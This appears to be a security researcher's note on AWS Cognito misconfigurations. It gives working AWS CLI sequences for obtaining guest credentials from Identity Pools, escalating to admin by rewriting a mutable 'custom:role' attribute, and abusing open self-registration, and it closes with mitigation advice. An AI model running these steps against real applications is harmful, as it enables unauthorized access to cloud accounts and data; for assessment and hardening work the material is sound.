

# AWS Cognito Misconfigurations and Privilege Escalation

## Introduction to AWS Cognito

Amazon Cognito is an AWS service designed to provide authentication, authorization, and user management for web and mobile applications. It allows developers to add user sign-up, sign-in, and access control seamlessly. However, its complex configuration options and multi-tiered architecture frequently lead to misconfigurations that can be leveraged by attackers for severe privilege escalation. 

Cognito fundamentally operates through two main components:
1. **User Pools**: These are user directories that provide sign-up and sign-in options for app users. They issue JSON Web Tokens (JWTs) upon successful authentication.
2. **Identity Pools (Federated Identities)**: These enable users to obtain temporary, limited-privilege AWS credentials to directly access other AWS services (like S3, DynamoDB, etc.). Identity Pools can grant credentials to both authenticated users (who have logged into a User Pool or an external IdP) and unauthenticated users (guest users).

The security boundary of applications relying on Cognito often breaks down when developers misunderstand the separation of authentication (User Pools) and authorization (Identity Pools), or when they misconfigure IAM roles associated with these pools.

## Core Architectural Concepts

To exploit Cognito, one must deeply understand how it orchestrates access.

- **App Client ID**: A unique identifier for an application registered within a User Pool. Applications use this ID to interact with the User Pool API.
- **Identity Pool ID**: The unique identifier for an Identity Pool, required to request AWS credentials.
- **JWT Tokens**:
    - **ID Token**: Contains claims about the identity of the authenticated user (e.g., name, email).
    - **Access Token**: Used to authorize API calls to Cognito User Pools or custom API Gateways.
    - **Refresh Token**: Used to obtain new ID and Access tokens without requiring re-authentication.

## Attack Flow and Architecture Diagram

The typical attack flow involves extracting client configuration from a target application, registering an account (if allowed), manipulating user attributes, and trading tokens for AWS credentials.



## Advanced Exploitation Vectors

### 1. Unauthenticated Access to Over-Permissive IAM Roles

Identity Pools can be configured to support "Unauthenticated Identities." This is intended to allow guest users to perform limited actions, such as downloading assets from a public S3 bucket or tracking unauthenticated analytics. 

**The Vulnerability**: 
Developers frequently attach overly permissive IAM roles to the unauthenticated identities. Instead of scoped-down policies, they might accidentally attach `AmazonS3FullAccess` or custom policies that allow enumerating resources across the account.

**Exploitation Steps**:
1. **Extract Identity Pool ID**: Inspect the client-side JavaScript or mobile application binaries. The Identity Pool ID typically looks like `us-east-1:xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx`.
2. **Obtain an Identity ID**:
   ```bash
   aws cognito-identity get-id \
     --identity-pool-id "us-east-1:xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx" \
     --region us-east-1
   ```
   *Response:*
   ```json
   {
       "IdentityId": "us-east-1:yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy"
   }
   ```
3. **Retrieve AWS Credentials**:
   ```bash
   aws cognito-identity get-credentials-for-identity \
     --identity-id "us-east-1:yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy" \
     --region us-east-1
   ```
   *Response:*
   ```json
   {
       "Credentials": {
           "AccessKeyId": "ASIA.......",
           "SecretKey": ".......",
           "SessionToken": ".......",
           "Expiration": 1612345678
       }
   }
   ```
4. **Enumerate Permissions**: Once credentials are obtained, use standard enumeration tools like Pacu or `aws sts get-caller-identity` to map out the IAM role's permissions.

### 2. Privilege Escalation via Mutable Custom Attributes

When applications use Cognito User Pools, developers often define custom attributes (e.g., `custom:role`, `custom:tenant_id`, `custom:isAdmin`) to handle authorization logic within the application or API Gateway.

**The Vulnerability**:
If the App Client settings allow users to *write* to these custom attributes after registration, an attacker can modify their own attributes to escalate privileges.

**Exploitation Steps**:
1. **Register an Account**: Use the App Client ID to register a normal user account.
   ```bash
   aws cognito-idp sign-up \
     --client-id <APP_CLIENT_ID> \
     --username attacker@example.com \
     --password "Password123!" \
     --region us-east-1
   ```
2. **Confirm Registration**: If the app doesn't require email verification, or if you verify it normally.
3. **Authenticate**: Get the Access Token.
   ```bash
   aws cognito-idp initiate-auth \
     --client-id <APP_CLIENT_ID> \
     --auth-flow USER_PASSWORD_AUTH \
     --auth-parameters USERNAME=attacker@example.com,PASSWORD="Password123!" \
     --region us-east-1
   ```
4. **Update User Attributes**: Attempt to modify a sensitive attribute.
   ```bash
   aws cognito-idp update-user-attributes \
     --access-token <ACCESS_TOKEN> \
     --user-attributes Name="custom:role",Value="admin" \
     --region us-east-1
   ```
5. **Re-Authenticate**: Fetch a new token to reflect the updated claims. The new JWT will contain `"custom:role": "admin"`, which may bypass backend authorization checks.

### 3. Exploiting Self-Registration and App Client Misconfigurations

Often, internal APIs or administrative applications use Cognito for authentication but rely on the assumption that "only employees know the URL." 

**The Vulnerability**:
If self-registration (sign-up) is enabled on the User Pool and the App Client does not require an administrative confirmation (or a client secret, which cannot be securely stored in front-end code anyway), anyone can register an account.

**Impact**: 
An attacker registers an account, gains a valid JWT, and accesses internal APIs that solely validate whether the JWT is cryptographically valid and issued by the correct User Pool, failing to check authorization roles.

### 4. Bypassing Application Flow to Exploit Authenticated Roles

Even if custom attributes are immutable, the *authenticated* IAM role attached to the Identity Pool might be overly permissive.

**Exploitation Steps**:
1. Authenticate with the User Pool to get an ID Token.
2. Call `get-id` using the ID Token in the `Logins` map.
   ```bash
   aws cognito-identity get-id \
     --identity-pool-id <POOL_ID> \
     --logins cognito-idp.<region>.amazonaws.com/<USER_POOL_ID>=<ID_TOKEN> \
     --region <region>
   ```
3. Call `get-credentials-for-identity` using the returned Identity ID and the same `Logins` map.
4. Obtain AWS temporary credentials and leverage them to access AWS resources directly, bypassing the application frontend entirely.

## Detailed Enumeration and Automation Tooling

When approaching a Cognito assessment, automated tooling significantly accelerates discovery:

### Pacu Modules
Pacu, the AWS exploitation framework by Rhino Security Labs, includes specific modules for Cognito:
- `cognito_enum_user_pools`: Enumerates user pools.
- `cognito_enum_identity_pools`: Enumerates identity pools.
- `cognito_attack_identity_pools`: Attempts to extract unauthenticated credentials and tests for common privilege escalation paths.

### Cognito Scanner Tools
Tools like `cognito-scanner` or custom Python scripts utilizing `boto3` can automatically iterate through Identity Pools, attempting to fetch identities and credentials without supplying authentication tokens.

## Mitigation and Defense Strategies

Securing AWS Cognito requires strict adherence to the principle of least privilege and careful configuration of pool settings:

1. **IAM Role Scoping**: 
   - Unauthenticated roles should have absolutely minimal permissions. If no unauthenticated access is required, disable unauthenticated identities in the Identity Pool entirely.
   - Authenticated roles must be tightly scoped. Use attribute-based access control (ABAC) with IAM policy variables (like `${cognito-identity.amazonaws.com:sub}`) to restrict users to their own data silos (e.g., specific S3 prefixes).
2. **Attribute Mutability**: 
   - Ensure that sensitive custom attributes (roles, permissions, flags) are marked as **immutable** in the User Pool.
   - Alternatively, only allow the backend services (using IAM credentials) to update these attributes, denying write access via the App Client configuration.
3. **Registration Controls**:
   - For internal applications, disable self-registration (`AllowAdminCreateUserOnly=true`).
   - Implement pre-sign-up AWS Lambda triggers to validate the domain of the registering user or implement manual approval workflows.
4. **Client Secrets**:
   - If the application is a confidential client (e.g., a backend server), use an App Client with a generated secret. (Note: Do not use secrets for public clients like SPAs or mobile apps, as they will be exposed).

## Chaining Opportunities

Cognito misconfigurations rarely exist in a vacuum and are prime targets for attack chaining:
- **[[08 - EKS Cluster Takeover from Pod to Node to IAM]]**: If the overly permissive Cognito IAM role allows describing EKS clusters or interacting with STS, it could provide the initial foothold needed for container orchestration takeover.
- **[[10 - SecretsManager and Parameter Store Data Exfiltration]]**: The temporary credentials obtained via Cognito are frequently tested against SSM and Secrets Manager. Accessing these services can yield database credentials or API keys.
- **Serverless Exploitation**: Cognito is deeply integrated with API Gateway and AWS Lambda. Bypassing Cognito authorization often leads directly to unauthorized execution of backend Lambda functions.

## Related Notes
- [[01 - Cloud IAM Fundamentals and Privilege Escalation]]
- [[02 - AWS STS and Cross-Account AssumeRole Abuse]]
- [[04 - API Gateway Authorization Bypass Techniques]]
